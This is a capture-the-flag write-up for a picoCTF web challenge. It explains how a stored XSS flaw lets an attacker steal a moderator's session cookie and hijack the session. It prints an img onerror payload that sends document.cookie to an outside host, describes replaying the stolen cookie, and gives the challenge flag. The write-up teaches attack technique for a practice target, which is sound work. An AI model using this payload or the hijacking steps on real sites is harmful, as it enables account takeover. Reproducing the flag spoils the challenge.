 ## secure_page_service - 100 (Web Exploitation)
####writeup by Oksisane

### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulurabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly reffered to as XSS) is a type of web exploit which invloves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1> it is clear that secure_page_service is not filtering any html we put into a page and instead is treating as normal, a glaring xss vulnerability. But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting the page. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we what to do once we have our cookie, but how do we get it?

We can form a tag such as
```html
<img src=/ onerror=location.href=("http://ehsandev.com/pico.php?c="+document.cookie)>
```
What this does is attempt to load an image from /, which will always fail. On error, it redirects (using `location.href`) the user to a page on a server (in this case ehsandev.com) with the cookies of the victim in the url. The attacker can then simply view the log of the get request made to the server and copy out the session id. For example, a user could be directed to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the access logs of this site. Finally, we have to manually set this to our cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
wow_cross_site_scripting_is_such_web
